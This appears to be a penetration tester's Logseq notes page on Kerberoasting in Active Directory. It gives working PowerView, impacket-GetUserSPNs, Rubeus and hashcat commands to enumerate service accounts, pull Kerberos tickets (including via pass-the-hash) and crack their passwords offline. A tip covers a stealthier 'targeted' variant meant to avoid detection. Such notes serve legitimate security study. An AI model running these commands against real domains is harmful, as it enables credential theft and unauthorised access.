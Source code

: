 public:: true

- In case a [SPN](((655e0fad-5b48-42ce-b82a-09cd0e4a9322))) is associated to an AD user account instead of an AD computer account, then the service instance that SPN is registered for **will be run in the context of that user**.
- #+BEGIN_NOTE
  As opposed to *[AD computer account](((655e3185-f921-4b07-bb00-e397a2486fc6)))*, the *AD user account* password might be bruteforced.
  #+END_NOTE
- When the KDC returns a [TGS-REP](((655b6438-ee0f-4168-8a40-754613d2b793))) it also returns [some information](((655a24c7-b91e-4a45-8468-c565395f566e))) encrypted with the password of user associated to the SPN.
- The Kerberoasting attack consist on targeting services ran by AD user account.
	- Search for services ran by AD user accounts
	  logseq.order-list-type:: number
	- File TGS-REQs against the KDC for found services
	  logseq.order-list-type:: number
	- Retrieve TGS-REPs
	  logseq.order-list-type:: number
		- The KDC always return a TGS-REP (if we can file a TGS-REQ from a domain user) beacuse no checks are performed to confirm whether we have any permissions to access the service hosted by the SPN. These checks are performed as a second step [only when connecting to the service itself](((655b6438-6055-4038-b37b-457c7b623610))).
	- Try to bruteforce TGS-REPs offline to retrieve the AD user account password
	  logseq.order-list-type:: number
	- Loot
	  logseq.order-list-type:: number
- id:: 655e327e-5e4b-4260-828e-33941dad976c
  #+BEGIN_TIP
  In case we have **GenericWrite** or **GenericAll** permissions on another AD user account. We could reset the user's password but *this may raise suspicion*. However, we could also [set an SPN](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) for the user, kerberoast the account, and crack the password hash in an attack named **Targeted Kerberoasting**.
  
  Do not forget to delete the SPN once we've obtained the hash!
  #+END_TIP
- Retrieve the list of SPNs associated to AD users accounts.
  *(Kerberoastable users)*
	- #+BEGIN_TIP
	  We know that a user account is being used to run a service because his `ServicePrincipalName` property is not null.
	  #+END_TIP
	- From Windows with PowerView
	  id:: 655e1f7d-ff2f-48b3-b240-c888d0cfb1b1
		- id:: 655e2029-2d0e-476f-9c58-c69ce7906fa7
		  ```powershell
		  # List any service principals associated with an AD user account
		  Get-NetUser -SPN | select serviceprincipalname
		  ```
	- From Linux with [[GetUserSPNs]]
		- id:: 655e2491-e204-4c69-859d-53d7425c4419
		  ```bash
		  # List any service principals associated with an AD user account
		  impacket-GetUserSPNs -dc-ip domain-controller-ip 'domain.tld/username:password'
		  
		  # List any service principals associated with an AD user account (Pass-the-Hash)
		  impacket-GetUserSPNs -dc-ip domain-controller-ip -hashes lm-hash:nt-hash 'domain.tld/username'
		  ```
- #+BEGIN_PINNED
  Kerberoasting [tools](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/) typically request **RC4** encryption when performing the attack and initiating TGS-REQ requests.
  
  This is because RC4 is [weaker](https://www.stigviewer.com/stig/windows_10/2017-04-28/finding/V-63795) and easier to crack offline using tools such as [[Hashcat]] than other encryption algorithms such as AES-128 and AES-256.
  
  *RC4 (type 23)* hashes begin with `$krb5tgs$23$*` while *AES-256(type 18)* start with `$krb5tgs$18$*`.
  #+END_PINNED
- Retrieve TGS-REPs for Kerberoastable users
	- From Windows with [[Rubeus]]
	  id:: 655e28cb-6916-4e6a-acbf-448824638693
		- This tool search for SPNs associated with with AD user accounts and request TGS-REP accordingly.
		- It needs to be ran from compromised windows machine in the context of an domain user.
		- ```powershell
		  .\Rubeus.exe kerberoast /tgtdeleg /outfile:hashes.kerberoast
		  ```
			- If the `/tgtdeleg` flag is supplied, the [tgtdeleg](https://github.com/GhostPack/Rubeus/tree/1155140b15008259be4fb05b7c28fc03e807a626#tgtdeleg) trick it used to get a usable TGT for the current user, which is then used for the roasting requests. If this flag is used, accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested. More info [here](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/).
	- From Linux with [[GetUserSPNs]]
	  id:: 655e2ce7-cc6b-42f9-8adf-a6e93a8956dd
		- ```bash
		  impacket-GetUserSPNs -request -dc-ip 192.168.50.70 -outputfile hashes.kerberoast corp.com/pete
		  ```
		- `-request` - is specified to request the [TGS-REP](((655b6438-ee0f-4168-8a40-754613d2b793))).
		- `-dc-ip` - The KDC (domain controller) IP
		- `corp.com/pete` - is the domain user from where we can query the DC. We'll need to input his password.
		- `-outputfile hashes.kerberoast` - file to save captured hashes.
- Crack **Kerberos 5 TGS-REP** hashes via [[Hashcat]] with the [`-m 13100`](https://hashcat.net/wiki/doku.php?id=example_hashes) option.
  id:: 655e2b6a-bc1a-494a-86e2-c23880ba612c
  ```bash
  sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt \
  	-r /usr/share/hashcat/rules/best64.rule --force
  ```
	- `-m 13100` - specifies the correct mode
	- `hashes.kerberoast` - is the file with the hashes, as it was output by `impacket-GetNPUsers` or `Rubeus`
	- `rockyou.txt` - the wordlist we want to use
	- `best64.rule` - the rules to apply to the wordlist
	- `--force` - to run `hashcat` in Kali